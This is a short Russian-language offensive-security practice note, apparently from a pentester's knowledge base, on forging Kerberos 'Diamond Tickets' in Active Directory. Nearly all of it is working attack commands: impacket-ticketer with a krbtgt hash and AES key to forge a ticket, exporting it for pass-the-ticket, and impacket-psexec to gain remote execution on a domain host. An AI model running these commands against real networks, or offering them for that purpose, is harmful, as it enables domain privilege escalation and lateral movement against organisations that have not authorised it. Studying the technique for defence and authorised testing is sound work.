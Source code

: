 # Практика
Атаки буду проводить для обычного пользователя ticket_user, членство в группах которого ограничивается "Пользователи домена".
## Diamond Ticket
#### Удаленный вектор
По-старинке, используем impacket. В нем есть замечательная тулза под названием ticketer:

``` shell
impacket-ticketer -request -domain 'domain' -user 'user' -password 'password' -nthash 'krbtgt/service nthash' -aesKey 'krbtgt/service aesKey' -domain-sid 'domain-sid'  -groups 'optional' user
```

*где `user` указывает на SPN или имя пользователя, за которое выдает себя злоумышленник, подделывая доступ aka для кого будет выпущен билет*.

![](../../../Attachments/dt_2.png)

Выполняем экспорт билета для последующей атаки PassTheTicket:

```shell
export KRB5CCNAME=ticket.ccache
```

![](../../../Attachments/dt_0.png)

С помощью psexec из того же набора impacket проверим работоспособность выпущенного билета:

```shell
impacket-psexec 'domain/user@host.domain' -dc-ip ip -k -no-pass
```
